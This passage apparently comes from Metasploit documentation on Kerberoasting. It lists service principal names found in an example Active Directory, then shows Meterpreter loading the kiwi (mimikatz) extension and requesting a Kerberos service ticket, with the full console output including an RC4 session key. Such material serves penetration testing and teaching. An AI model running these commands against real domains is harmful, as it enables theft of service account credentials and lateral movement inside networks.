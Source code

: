 ```msf
 Name                  Attributes
 ----                  ----------
 cn                    CAITLIN_CAMPBELL
 samaccountname        CAITLIN_CAMPBELL
 serviceprincipalname  ftp/BDEWSECS1000000

CN=NETTIE_BURNS OU=ITS OU=Stage DC=example DC=com
=================================================

 Name                  Attributes
 ----                  ----------
 cn                    ALBERTO_OLSEN
 samaccountname        ALBERTO_OLSEN
 serviceprincipalname  https/TSTWWKS1000002

CN=LESSIE_PHILLIPS OU=Test OU=GOO OU=Stage DC=example DC=com
============================================================

```

Great, we now have a couple SPNs to move forward with.

**Request Service Tickets - with kiwi**

If you have a running Meterpreter session you can request a Service Ticket using the kiwi extension and one of the SPNs
found above:

```msf
meterpreter > load kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000
Asking for: https/TSTWLPT1000000
   * Ticket Encryption Type & kvno not representative at screen

	   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
	   Service Name (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Target Name  (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Client Name  (01) : Administrator ; @ EXAMPLE.COM
	   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000017 - rc4_hmac_nt
	     07137dd7d5b801ef8b05c73380b18701
	   Ticket            : 0x00000017 - rc4_hmac_nt       ; kvno = 0	[...]

```
